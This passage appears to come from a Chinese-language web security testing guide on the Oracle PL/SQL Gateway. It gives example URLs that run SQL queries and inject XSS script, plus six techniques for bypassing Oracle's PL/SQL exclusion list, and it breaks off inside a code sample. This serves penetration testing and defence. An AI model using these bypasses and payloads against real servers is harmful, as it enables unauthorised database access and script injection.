 ```http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS```

跨站点脚本攻击可以通过HTP软件包发起：

```http://www.example.com/pls/dad/HTP.PRINT?CBUF=<script>alert('XSS')</script>```

显然这很危险，因此Oracle引入了PLSQL排除列表以防止直接访问此类危险过程。禁止的项目包括以```SYS.*```、```DBMS_*```开头的任何请求，禁止任何含有```HTP.*```或```OWA*```的请求。然后绕过这些黑名单是有可能的。此外，排除列表不会阻止访问```CTXSYS```和```MDSYS```模式或其他模式中的程序包，因此可以利用以下程序包中的缺陷：

```http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALIDATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL```

如果数据库服务器受上述漏洞的影响，则将返回空白的HTML页面，响应为200 OK（CVE-2006-0265），这证明了当前所用的技术为oracle的pl/sql 服务器。

##### 绕过 PL/SQL 排除列表（黑名单）
甲骨文试图修复绕过排除列表缺陷的次数令人难以置信。Oracle产生的每个补丁都成为新旁路技术的牺牲品。可以参考：https://seclists.org/fulldisclosure/2006/Feb/11

###### 方法1
在Oracle首次引入PL / SQL排除列表，防止攻击者访问任意PL / SQL程序包时，可以通过在模式/程序包名称前添加十六进制编码的换行符或空格或制表符来略过它：
```
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC
```

###### 方法2
对于PL/SQL网关的新版本应用，攻击者可以在schema/package名称前添加标签来绕过黑名单。在PL/SQL中，指向代码行的标签的形式如下（代码可由GOTO语句跳转）：```<<NAME>>```

```http://www.example.com/pls/dad/<<LABEL>>SYS.PACKAGE.PROC```

###### 方法3
只需将 schema/package 的名称放在双引号中，即可使攻击者绕过排除列表。注意，这在Oracle应用服务器10g是行不通的，因为oracle 10g 会在发送请求到数据库服务器前，把用户的请求转换成小写字符串，而引号字符是大小写敏感的，这样```SYS```和```sys```就是两个不同的字符串，这会导致404报错。较10g早期的版本可以使用如下的请求url:
```http://www.example.com/pls/dad/"SYS".PACKAGE.PROC```

###### 方法4
取决于web服务器和数据库服务器使用的字符集，一些字符可以被转义。例如数据库服务器遇到```ÿ```可能转换为```y```。又例如，经常转换为大写字母```Y```的是Macron字符```0xAF```。下面是一个可能使攻击者绕过排除列表的例子：
```
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC
```
###### 方法5
一些PL/SQL网关的版本可以使用反斜杠```0x5c```绕过，例如：
```http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC```

###### 方法6

最复杂的绕过方法使最近oracle打补丁防止的绕过方法。例如我们的url请求如下：```http://www.example.com/pls/dad/foo.bar?xyz=123```，这台应用服务器可能在数据库服务器上执行下列代码：

```sql
declare
    rc__ number;
    start_time__ binary_integer;
    simple_list__ owa_util.vc_arr;
    complex_list__ owa_util.vc_arr;
begin
    start_time__ := dbms_utility.get_time;
    owa.init_cgi_env(:n__,:nm__,:v__);
    htp.HTBUF_LEN := 255;
    null;
    null;
    simple_list__(1) := 'sys.%';
    simple_list__(2) := 'dbms\_%';
```
